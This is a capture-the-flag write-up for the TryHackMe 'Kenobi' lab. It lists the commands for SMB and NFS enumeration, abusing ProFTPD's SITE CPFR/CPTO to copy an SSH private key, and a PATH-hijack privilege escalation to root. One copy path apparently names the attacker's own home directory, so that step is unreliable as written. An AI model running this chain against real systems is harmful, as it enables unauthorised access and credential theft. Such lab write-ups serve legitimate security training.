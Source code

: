 # Kenobi
My own Writeup of machine Kenobi (Tryhackme)

¡¡¡ IMPORTANT !!!
### First of all, connect to your tryhackme vpn.
¡¡¡ IMPORTANT !!!

1. Scan the machine, i use this command to scan open ports in the machine:

````nmap -T5 -p- -n -v <ip>````
  
![Screenshot_1](https://user-images.githubusercontent.com/80575736/111028536-849d6380-83f7-11eb-8356-e13b67d6fe01.png)

With this information we can show a few open ports, for example port 21 (ftp), port 22 (ssh), port 111 (rpcbind) port 445 (smb), port 139 (NetBios) and port 445 (Shared_folders SMB)

In this machine we have to explotate SMB shared folders port (445), and ftp (21)

2. When we have open ports in the machine, we have to try internal nmap scripts to see a few vulnerabilities. We can try with this:

```nmap --script=vuln <ip> ```

For my i try this command and works better for me:

``` nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>```

![Screenshot_2](https://user-images.githubusercontent.com/80575736/111028824-87995380-83f9-11eb-881f-44023f30b244.png)

This command show the shared folders of the vulnerable machine, and we can watch a share with name "anonymous".

3. Connect with smbclient to see what there is in.

``` smbclient //<ip>/shared_folder```

![Screenshot_3](https://user-images.githubusercontent.com/80575736/111029377-b533cc00-83fc-11eb-8e64-8c7367b52469.png)

To show subfolders and files, we can use command ```ls``` like in linux terminal.

![Screenshot_16](https://user-images.githubusercontent.com/80575736/111029450-ef04d280-83fc-11eb-8ffb-360bad8ad4dd.png)

We see a  intersting file name log.txt

4. Copy the previous file (log.txt) in our machine.

```smbget -R smb://<ip>/shared_folder```
This command copy all folders and files recursively.

![Screenshot_4](https://user-images.githubusercontent.com/80575736/111029700-55d6bb80-83fe-11eb-90cc-44e8729870bc.png)

When we read file log.txt, we can appreciate:
- Information generated for Kenobi when generating an SSH key for the user
- Information about the ProFTPD server.

5. In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>```

![Screenshot_5](https://user-images.githubusercontent.com/80575736/111030205-4e64e180-8401-11eb-85a2-7e27491d9d16.png)

This command provide us folder of file systems mounted by clients. in our case /var 

6. We go to search a exploit of the ftp server of the vulnerable machine "proftpd".

``` searchsploit proftpd 1.3.5```

![Screenshot_6](https://user-images.githubusercontent.com/80575736/111030486-cb448b00-8402-11eb-8d99-e29502e59f14.png)

We execute the previous command, and its show three exploits of service "proftpd"


7. Go to connect to ftp server via netcat with this command:

``` nc <ip> <port> ```

![Screenshot_7](https://user-images.githubusercontent.com/80575736/111030610-8a00ab00-8403-11eb-9848-c6991de16fb9.png)

Now we are inside ftp server, and we have to use this command to copy id_rsa to before connect via ssh to gain access with the user Kenobi.

```site CPFR /home/kali/.ssh/id_rsa ```

``` site CPTO /var/tmp/id_rsa```

![Screenshot_8](https://user-images.githubusercontent.com/80575736/111030943-54f55800-8405-11eb-9bd9-4099600dcf03.png)

8. Lets mount the /var/tmp directory to our machine, to be able to copy id_rsa in our machine. (We )

```sudo mkdir /mnt/kenobiNFS```

```sudo mount <ip>:/var /mnt/kenobiNFS```


![Screenshot_9](https://user-images.githubusercontent.com/80575736/111031122-3f346280-8406-11eb-8959-65e2b80a2ffc.png)
![Screenshot_10](https://user-images.githubusercontent.com/80575736/111031123-4196bc80-8406-11eb-8578-14015cbf7143.png)

We can check the mount with this command:

```ls -la /mnt/kenobiNFS```

![Screenshot_11](https://user-images.githubusercontent.com/80575736/111031169-668b2f80-8406-11eb-88d2-f7811e5ab8d9.png)

9. We have to copy id_rsa to our machine, next assign owner read, write permissions to id_rsa, and connect via ssh to victim machine.

```cp /mnt/kenobiNFS/tmp/id_rsa .```

```sudo chmod 600 id_rsa```

```ssh -i id_rsa kenobi@<ip>```

![Screenshot_12](https://user-images.githubusercontent.com/80575736/111031404-c0d8c000-8407-11eb-8b56-2748574d03a5.png)

10. We got it!! go to user home (/home/kenobi) and use this command ```cat``` to see the flag.

![image](https://user-images.githubusercontent.com/80575736/111032309-d354f880-840b-11eb-9e37-50542840f4b5.png)

11. To escalate privileges, we have to find SUID binaries, we can use this command to find them.

```find / -perm /4000 2>/dev/null```

![Screenshot_19](https://user-images.githubusercontent.com/80575736/111031834-d0590880-8409-11eb-94cb-189f078ca9d1.png)

We can see a strange binary called "menu", with the path /usr/bin/menu, we can run and see what it does.
With this command ```strings``` can looks for human readable strings on a binary.

![image](https://user-images.githubusercontent.com/80575736/111032041-cbe11f80-840a-11eb-8222-e2183e1e3dd1.png)


12. Manipulate the path of victim machine to gain a root shell, executing this commands:

```cd /tmp```

```echo /bin/sh > curl```

```chmod 777 curl```

```export PATH=/tmp:$PATH```

```/usr/bin/menu```

![image](https://user-images.githubusercontent.com/80575736/111032521-f207bf00-840c-11eb-96fc-21c75d982413.png)

We gain access with user root!!
Go to /root and view the flag with command ```cat``` like in paragraph 10







